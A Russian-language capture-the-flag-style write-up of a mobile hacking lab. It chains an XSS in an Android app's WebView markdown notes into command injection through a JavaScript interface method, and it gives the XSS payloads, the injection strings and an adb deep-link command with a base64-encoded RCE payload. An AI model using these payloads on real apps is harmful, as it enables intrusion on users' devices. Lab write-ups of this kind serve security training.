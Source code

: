 Задание - [Post Board - WebView Challenge](https://www.mobilehackinglab.com/path-player?courseid=lab-webview&unit=656b629c96c9f725630099baUnit)

**Базовый функционал**
Основной функционал приложения - это постить заметки в markdown:

![alt text](assets/postboard_writeup_1.png)

Весь функционал построен на использовании WebView и javaScript интерфейсов, разметка страницы с функционалом находится в `assets/index.html`, его рад ниже:

![alt text](assets/postboard_writeup_2.png)

Здесь используется js интерфейс `WebAppInterface`, у которого есть следующие методы:
- `getMessages` - возвращает json объект со списком заметок из `WebAppCache`, который хранит их списком.

![alt text](assets/postboard_writeup_3.png)

- `postMarkdownMessage` - заменяет md синтаксис на html и сохраняет полученную заметку в кэш `WebAppCache`.
- `postCowsayMessage` - в основном функционале не используется, добавляет в заметки результат вызова скрипта `asstes/cowsay.sh`.

![alt text](assets/postboard_writeup_4.png)

**Обработка диплинка**

Кроме основного функционала в интерфейсе приложения, оно способно вызываться с помощью диплинка `postboard://postmessage` и кроме этого, основная и единственная активность является экспортируемой. Код обработки интента при вызове активности с помощью диплинка:

![alt text](assets/postboard_writeup_5.png)

Здесь из интента извлекается URI и проверяется, соответствует ли он схеме:

```
postboard://postmessage/<url_safe_base64>
```

Затем путь, полученный в base64, декодируется в URL_SAFE режиме (второй аргумент, цифра 8) и передается как текст заметки с использованием метода js интерфейса `postMarkdownMessage`.

Если при этом было вызвано какое-либо исключение, оно передается в метод `postCowsayMessage`.

**Анализ runCowsay**

Метод `runCowsay()` является основной точкой входа для RCE уязвимости, т.к. метод принимает строку, которая никак предварительно не обрабатывается и передается как аргумент скрипту `cowsay`, который является аналогом обычного скрипта из Linux. Код метода:

![alt text](assets/postboard_writeup_6.png)

 Инъекцию в этот метод можно проводить двумя способами:
 - инъектировать  команду в сам скрипт cowsay: `cowsay $(ls)`
 - Т.к. ввод передается напрямую в exec,  использовать разделители команд `;` , `||`, `&&`:  `cowsay hello; ls`

Т.е. пример js кода с эксплуатацией RCE такой:
```
WebAppInterface.postCowsayMessage("$(ls)")
```

**Эскплуатация XSS**

Для проверки на xss для удобства лучше использовать вызов активности с моощью диплинка:
```
am start -a android.intent.action.VIEW -d "postboard://postmessage/<url_safe_base64>
```

Обычный пейлоад не сработает, т.к. будет видоизменён в процессе обработки регулярными выражениями в `postMarkdownMessage`:
```
<script>alert(1)</script>
```
В этом случае заметка просто останется пустой.

> Стоит отметить, что тестирование с помощью функций alert() или promt() становится доступным благодаря тому, что при инициализации WebView устанавливается WebAppChromeClient

Далее перебирал различные пейлоады [отсюда](https://github.com/payloadbox/xss-payload-list), первый отработавший успешно такой:
```
<image src=1 href=1 onerror="javascript:alert(1)"></image>
```

Результат:

![alt text](assets/postboard_writeup_7.png)

Однако, когда я использовал вызов js интерфйеса в пейлоаде:
```
WebAppInterface.postCowsayMessage('hello')
```

Отображение текста cowsay не произошло:

![alt text](assets/postboard_writeup_8.png)

то же касается и тех случаев, когда я просто вводил невалидный base64 текст, чтобы вызвать исключение и произошел вызов cowsay:

![alt text](assets/postboard_writeup_9.png)

К примеру, с таким диплинком:
```
postboard://postmessage/PGlt+++
```

Заметка останется пустой, хотя в ней должен оказаться результат вызова cowsay:

![alt text](assets/postboard_writeup_10.png)

**Предыдущее тесты поводились на версии API 30 и 32, при использовании API все заработало**

Пример уведомления при невалидном base64:

![alt text](assets/postboard_writeup_11.png)

Чтобы в изначальном пейлоаде для XSS не использовались кавычки, решил использовать:
```
<image/src/onerror=prompt(8)>
```

при таком пейлоаде:
```
<image/src/onerror=WebAppInterface.postCowsayMessage('hello')>
```

Результат успешный:

![alt text](assets/postboard_writeup_12.png)

Конечный пейлоад для эксплуатации RCE:
```
<image/src/onerror=WebAppInterface.postCowsayMessage("h;pwd;id;ls")>
```

Команда для adb:
```
am start -a android.intent.action.VIEW -d "postboard://postmessage/PGltYWdlL3NyYy9vbmVycm9yPVdlYkFwcEludGVyZmFjZS5wb3N0Q293c2F5TWVzc2FnZSgiaDtwd2Q7aWQ7bHMiKT4"
```

Результат:

![alt text](assets/postboard_writeup_13.png)

RCE выполняется успешно, можно, к примеру, прокинуть реверс-шелл.

>В процессе тестирования надо не забывать очищать заметки, т.к. каждый раз при обновлении заметок код пейлоадов будет выполнятся, и заметки с вредоноснымкодом будут множатся геометрически


